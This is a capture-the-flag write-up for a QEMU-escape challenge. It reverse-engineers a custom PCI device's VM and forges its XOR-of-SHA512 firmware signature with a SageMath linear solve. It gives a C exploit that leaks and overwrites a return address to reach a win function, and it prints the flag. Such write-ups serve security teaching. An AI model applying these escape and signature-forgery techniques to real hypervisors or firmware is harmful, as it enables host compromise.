# Lumapci

- Author: `Livian`
- Description:

```
Luma failed maths so I made him a PCI card that will help him do some calculations. Don't think you can exploit it because it only runs my signed firmware :3.
```

Files: [lumapci.zip](./lumapci.zip)

## Overview



From the provided docker file and entrypoint script, we can see that our docker runs the linux kernel and file system compiled by `qemu_builder` profile in `Challenge.dockerfile` with precompiled qemu binary. The flag is stored in docker's file system. This would mean this challenge requires us to do QEMU escape.




## qemu-system-x86_64

After we opened qemu-system-x86_64 in Binary Ninja we notice that there are multiple functions with `luma` keyword.



### Init

From the function `luma_class_init`, we can see that `pci-device` is registered.



After some research we figured out that this function closely resembles QEMU's [edu device](https://github.com/qemu/qemu/blob/master/hw/misc/edu.c)

```c
static void edu_class_init(ObjectClass *class, void *data)
{
    DeviceClass *dc = DEVICE_CLASS(class);
    PCIDeviceClass *k = PCI_DEVICE_CLASS(class);

    k->realize = pci_edu_realize;
    k->exit = pci_edu_uninit;
    k->vendor_id = PCI_VENDOR_ID_QEMU;
    k->device_id = 0x11e8;
    k->revision = 0x10;
    k->class_id = PCI_CLASS_OTHERS;
    set_bit(DEVICE_CATEGORY_MISC, dc->categories);
}
```

With this information we can change the types on `rax` and `rax_1` with Binary Ninja's `Change Type` feature to make this function much more readable. Now we can notice that only `device_id` differs from the default edu implementation.



## Read



Continuing with our analysis on `luma_mmio_read` function, in similar fashion we can compare with the edu implementation.

```c
static uint64_t edu_mmio_read(void *opaque, hwaddr addr, unsigned size)
{
    EduState *edu = opaque;
    uint64_t val = ~0ULL;

    if (addr < 0x80 && size != 4) {
        return val;
    }

    if (addr >= 0x80 && size != 4 && size != 8) {
        return val;
    }

    switch (addr) {
    case 0x00:
        val = 0x010000edu;
        break;
    case 0x04:
        val = edu->addr4;
        break;
    case 0x08:
        qemu_mutex_lock(&edu->thr_mutex);
        val = edu->fact;
        qemu_mutex_unlock(&edu->thr_mutex);
        break;
    case 0x20:
        val = qatomic_read(&edu->status);
        break;
    case 0x24:
        val = edu->irq_status;
        break;
    case 0x80:
        dma_rw(edu, false, &val, &edu->dma.src, false);
        break;
    case 0x88:
        dma_rw(edu, false, &val, &edu->dma.dst, false);
        break;
    case 0x90:
        dma_rw(edu, false, &val, &edu->dma.cnt, false);
        break;
    case 0x98:
        dma_rw(edu, false, &val, &edu->dma.cmd, false);
        break;
    }

    return val;
}
```

We can see that that the luma implementation has much less addr cases `0x50-0xcf`, `0x120` and `0x140`.

We also have this object at variable `rax` that in edu implementation is called `EduState`.

After some searching of types in Binary Ninja `Types` view, we notice a type named `LumaState`.


When we change type of rax to `struct LumaState*` we can see that it perfectly matches and gives us meaningful decompilation.



## Write



Similarly, to read we can map our object to `struct LumaState*`.

And again we see some special addr cases that are not present in edu implementation: `0x50-0xcf`, `0xd8-0x117`, `0x120` and `0x138`.

## VM

Another interesting function here is `vm_execute` that is called on `LumaState` object. Similar to many `vm` challenges there is a big switch case with handlers for executing vm instructions.



After some analysis we can see that each instruction is encoded in short int (2 bytes) with 4 nibbles in order: `opcode`, `register1`, `register2`, `constant`.

```rust
pub fn instr(opcode: u8, reg1: u8, reg2: u8, cnst: u8) -> u16 {
    (opcode as u16) << 12 | (reg1 as u16) << 8 | (reg2 as u16) << 4 | cnst as u16
}
```

And we can map opcodes like this:

```rust
//exit
const opc_ret: u8 = 0;
//r1 = firmware[r2]
const opc_load: u8 = 1;
//firmware[r2] = r1
const opc_store: u8 = 2;
//r1 = r2 + r1
const opc_add: u8 = 3;
//r1 = r2 - r1
const opc_sub: u8 = 4;
//r1 = r2 & r1
const opc_and: u8 = 5;
//r1 = r2 | r1
const opc_or: u8 = 6;
//r1 = r2 ^ r1
const opc_xor: u8 = 7;
//pc = r1
const opc_jmp: u8 = 8;
//if r2 != 0 => pc = r1
const opc_ceq: u8 = 9;
//if r2 == 0 => pc = r1
const opc_cne: u8 = 0xA;
//r1 = r2 << const
const opc_shl: u8 = 0xB;
//r1 = r2 >> const
const opc_shr: u8 = 0xC;
//r1 = r1 + 1
const opc_inc: u8 = 0xD;
//r1 = r1 - 1
const opc_dec: u8 = 0xE;
//nop
const opc_nop: u8 = 0xF;
```

### Validate signature

There is a function called `validate_signature` that is called before vm_execute



What this function does is split code into chunks of 64 bytes, performs sha512 on those chunks and xors those hashes into one `checksum` and finally compares the checksum with constant values.

This would be rust equivalent:

```rust
use sha2_const::Sha512;

fn sha512(data: &[u8]) -> [u8; 64] {
    Sha512::new().update(data).finalize()
}

fn checksum(data: &[u8]) -> [u8; 64] {
    data.chunks(64)
        .map(|c| sha512(&c))
        .fold([0u8; 64], |mut acc, hash| {
            for (a, b) in acc.iter_mut().zip(hash.iter()) {
                *a ^= b;
            }
            acc
        })
}

fn validate_signature(data: &[u8]) -> bool {
    let checksum = checksum(data);

    let target_checksum = hex::decode("7d2d3d2d3faec8204d6e4e25671680f4fb0b219032c7aa1c8eb900a91931b8b0a92840d4fb36a81c5fd280f453993a97ad395bf009680b9d265df770c896ccd0").unwrap();

    return &checksum[..] == &target_checksum;
}
```

### Win Function

The author of this challenge was nice enough to add a win function:


## Overview

To reiterate, we need to:

- Create a driver to communicate with `luma_qemu_device`
- Bypass `validate_signature`
- Create VM code to exploit luma_device

## Communicating with qemu

## Bypassing validate_signature

This obstacle is what got most teams stuck.

### Creating valid signature

Since `checksum` was generated by xoring multiple sha512 hashes, what we could do is generate a large number of random hashes and try to find a combination of hashes such that when xored, we get the target checksum.

We could achieve this by thinking of sha512 as polynome of order 64 and try to solve this linear equation to get hashes that when xored together give us the required checksum.

We did this by creating a matrix of random hashes and used SageMath's `solve_right` function to solve the linear equation.

```py
from sage.all import *

target = [
bytes.fromhex("20C8AE3F2D3D2D7D")[::-1],
bytes.fromhex("F4801667254E6E4D")[::-1],
bytes.fromhex("1CAAC73290210BFB")[::-1],
bytes.fromhex("B0B83119A900B98E")[::-1],
bytes.fromhex("1CA836FBD44028A9")[::-1],
bytes.fromhex("973A9953F480D25F")[::-1],
bytes.fromhex("9D0B6809F05B39AD")[::-1],
bytes.fromhex("D0CC96C870F75D26")[::-1]]

target_raw = b"".join(target)

from hashlib import sha512
from random import randbytes as rb

from sage.all import GF, matrix, vector
F = GF(2)
src = [rb(64) for _ in range(512*8*2)]
hashed = [list(map(F, "{:0512b}".format(int(sha512(x).hexdigest(),16)))) for x in src]
target = list(map(F, "{:0512b}".format(int(target_raw.hex(),16))))
m = matrix(F, hashed)
v = vector(F, target)
print(m.dimensions())
print(len(v))
sol = m.T.solve_right(v)

payload = b""
res = int(target_raw.hex(), 16)
for idx, bit in enumerate(sol):
    if bit == 1:
        payload += src[idx]
        res ^= int(sha512(src[idx]).hexdigest(), 16)

assert res == 0, "hashes not 0"
print(len(payload))
if input("> ").lower() == "y":
    print(payload.hex())
```

### Creating valid VM code

Now that we have a valid "magic blob" of bytes that passes `validate_signature`, we need to add vm instructions.

We managed to solve this by creating a block of bytes **(64 byte aligned)**, adding our exploit instructions there and then duplicating it. What this means is that both blocks would have the same hash, resulting in a 0 after they are xored together and ultimately not affecting the checksum at all.

Overall what this means is that we can layout our code as VM instruction block, copy of the same instruction block and then our "magic blob".


## VM Exploitation

Finally we get to the PWN part of this challenge.
If we check our analysis of `vm_execute`, we can see that we have arbitrary read and arbitrary write from our copy of `LumaState.firmware` bytes on stack. This means that we can read and modify the return pointer of `vm_execute` and redirect it to our win function `luma_math_hacks`.

### Exploit

We created 2 vm programs
First shellcode is  
```
opc_load r1, r0
opc_ret
```
we used 
`pciwrite(0x50, 0x100000 + 0x28)` we set register 0 to return pointer offset
and called pciwrite(0x128, 1); to execute vm.

Next we read register1 using pciread(0x58); to get return pointer leak.

next vm program is to set return pointer to some ret instruction to allign stack and next rop is to win function
```
opc_store r1, r0
opc_store r3, r2
opc_ret
```
we just had to store register r1 to our chosen ret instruction and 
r3 to win function addres generated from leaked function.
And stack offsets to registers r0 and r2.

Full code can be found at: [exploit](./exploit/edu-cli.c)


```c
#include <fcntl.h>
#include <stdbool.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <unistd.h>
#include "edu.h"
#include <stdint.h>

#define SHELLCODE_LEN 128
uint8_t shellcode[SHELLCODE_LEN] = {0, 17, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 17, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0};

#define SHELLCODE_LEN1 128
uint8_t shellcode1[SHELLCODE_LEN1] = {0, 33, 32, 35, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 33, 32, 35, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0};


#define CHECKSUM_LEN 18176
uint8_t checksum[CHECKSUM_LEN] = { /*magic blob*/};


static const char *const device_path = "/dev/edu";

static bool parse_int_arg(const char *s, unsigned long long int *val)
{
	const bool is_hex = s[0] == '0' && (s[1] == 'x' || s[1] == 'X');
	return sscanf(s, is_hex ? "%llx" : "%llu", val) == 1;
}

int fd;
int ret;

uint64_t pciread(uint64_t address)
{
	uint64_t addr = address;
	uint64_t val = 0;
	ret = ioctl(fd, EDU_IOCTL_IDENT, &addr);
	if (ret) {
		printf("read ioctl error\n");
		exit(-1);
	}
	return val;
}

uint64_t pciwrite(uint64_t address, uint64_t value)
{
	uint64_t addr = address;
	uint64_t val = value;
	ret = ioctl(fd, EDU_IOCTL_LIVENESS, &addr);
	if (ret) {
		printf("write ioctl error\n");
	}
	return val;
}

uint64_t set_fw_w_addr(uint64_t value)
{
	return pciwrite(0x120, value);
}

uint64_t set_fw_len(uint64_t value)
{
	return pciwrite(0x138, value);
}

uint64_t write_byte(uint64_t value)
{
	return pciwrite(0xd8, value);
}

void write_checksum()
{
	set_fw_len(0x10000);
	for (size_t i = 0; i < CHECKSUM_LEN; i += 8) {
		set_fw_w_addr(0x4000 + i);
		write_byte(*(uint64_t *)&checksum[i]);
	}
}

#define SHELLCODE_LEN 128
uint8_t shellcode[SHELLCODE_LEN] = {0, 17, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 17, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0};

#define SHELLCODE_LEN1 128
uint8_t shellcode1[SHELLCODE_LEN1] = {0, 33, 32, 35, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 33, 32, 35, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0};


void exploit()
{
	write_checksum();

	for (size_t i = 0; i < SHELLCODE_LEN; i += 8)
	{
		set_fw_w_addr(i);
		write_byte(*(uint64_t *)&shellcode[i]);
	}

	uint64_t rsp_off = 0x100000 + 0x28;
	pciwrite(0x50, rsp_off);
	pciwrite(0x128, 1);

	uint64_t leak = pciread(0x58);
	printf("firmware [] = %llx\n", (unsigned long long int)leak);

	// second part
	uint64_t offset_ret = 0xffffffffffda7e23;
	uint64_t offset_win = 0xffffffffffda869c;
	pciwrite(0x50, rsp_off);
	pciwrite(0x58, leak + offset_ret);
	pciwrite(0x60, rsp_off + 8);
	pciwrite(0x68, leak + offset_win);

	for (size_t i = 0; i < SHELLCODE_LEN1; i += 8)
	{
		set_fw_w_addr(i);
		write_byte(*(uint64_t *)&shellcode1[i]);
	}
	pciwrite(0x128, 1);
}
```

And in the end we transfered out driver and cli tool and we got the flag ```TFCCTF{7h4nk_y0u_c4d37_y0u_w0n_7h3_3mu_w4r_92u83cj545d}```


